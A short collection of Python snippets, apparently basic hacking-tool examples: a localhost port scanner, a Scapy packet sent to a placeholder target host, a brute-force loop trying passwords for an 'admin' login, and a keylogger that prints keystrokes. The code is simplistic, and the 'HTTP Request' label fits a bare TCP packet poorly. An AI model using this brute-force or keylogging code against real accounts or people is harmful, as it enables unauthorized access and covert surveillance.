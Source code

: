 # Port Scanning
import socket
for port in range(20, 1024):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(1)
    if s.connect_ex(("127.0.0.1", port)) == 0:
        print(f"Port {port} is open")
    s.close()

# HTTP Request with Scapy
from scapy.all import *
pkt = IP(dst="www.target.com")/TCP(dport=80)
send(pkt)

# Brute Force Login
import requests
url = "http://example.com/login"
for password in ["password1", "password2"]:
    res = requests.post(url, data={"username": "admin", "password": password})
    if "Login successful" in res.text:
        print(f"Password found: {password}")

# Keylogger
from pynput import keyboard
def on_press(key):
    print(f"Key pressed: {key}")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
